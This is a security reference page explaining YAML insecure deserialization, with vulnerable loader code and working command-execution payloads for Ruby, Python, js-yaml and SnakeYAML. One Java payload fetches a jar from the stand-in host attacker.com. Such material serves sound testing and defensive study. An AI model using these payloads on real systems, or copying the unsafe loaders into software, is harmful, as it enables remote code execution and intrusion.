 ```yaml
---
description: Yet Another Markup Language
---
```


# YAML

## Description

First of all, this great article explains all sorts of tricks and weirdness in YAML:

{% embed url="https://ruudvanasseldonk.com/2023/01/11/the-yaml-document-from-hell" %}
Explanation and examples of many YAML tricks
{% endembed %}

## Insecure Deserialization

In YAML the `!` character can mean a **tag**, which allows you to execute a function in the host language with a parameter that comes right after (because why not). Many parsers implement this as it is required by the spec, but if attackers have control over the YAML file, even partially, they can use these tags to run arbitrary functions with arbitrary arguments.&#x20;

A common target for this is a function that executes shell commands, where you can gain Remote Code Execution. The following examples all execute the `id` command and allow you to execute any arbitrary commands:

### Ruby

{% code title="Vulnerable Code" %}
```ruby
require "yaml"

YAML.load(File.read("data.yml"))
```
{% endcode %}

#### Payload (>2.7, [source](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/))

{% code title="data.yml" %}
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```
{% endcode %}

### Python

{% code title="Vulnerable Code" %}
```python
from yaml import Loader, load

deserialized = load(open('data.yml'), Loader=Loader)
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
!!python/object/apply:os.system
- "id"
```
{% endcode %}

### JavaScript - `js-yaml` (<4.0)

This popular JavaScript library allows the creation of arbitrary functions like `.toString()` which can be called accidentally, when using `load()` instead of `safeLoad()` in versions below 4:

{% code title="Vulnerable Code" %}
```javascript
const yaml = require('js-yaml');
const fs = require('fs');

const res = yaml.load(fs.readFileSync('data.yml'));
console.log(res + "")  // Calls .toString() as trigger
```
{% endcode %}

#### Payloads

{% code title="data.yml" %}
```yaml
"toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('id').toString())}"
```
{% endcode %}

{% code title="data.yml" %}
```yaml
toString: !!js/function >
  function () {
      console.log(process.mainModule.require('child_process').execSync('id').toString())
  }
```
{% endcode %}

### Java - SnakeYAML (<2.0)

{% embed url="https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471" %}
Walkthrough of vulnerability as theory and exploitability
{% endembed %}

{% code title="Vulnerable Code" %}
```java
import org.yaml.snakeyaml.Yaml;

Yaml yaml = new Yaml();
FileInputStream fis = new FileInputStream("data.yml");
Map<String, Object> parsed = yaml.load(fis);
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
some_var: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["http://attacker.com/payload.jar"]
    ]]
]
```
{% endcode %}

`/payload.jar` file:

1. [Explanation](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) (search "remote jar file")
2. [Proof of Concept](https://github.com/jordyv/poc-snakeyaml) with `build.sh` script (change [`exec()`](https://github.com/jordyv/poc-snakeyaml/blob/master/src/pocsnakeyaml/PocScriptEngineFactory.java#L18))
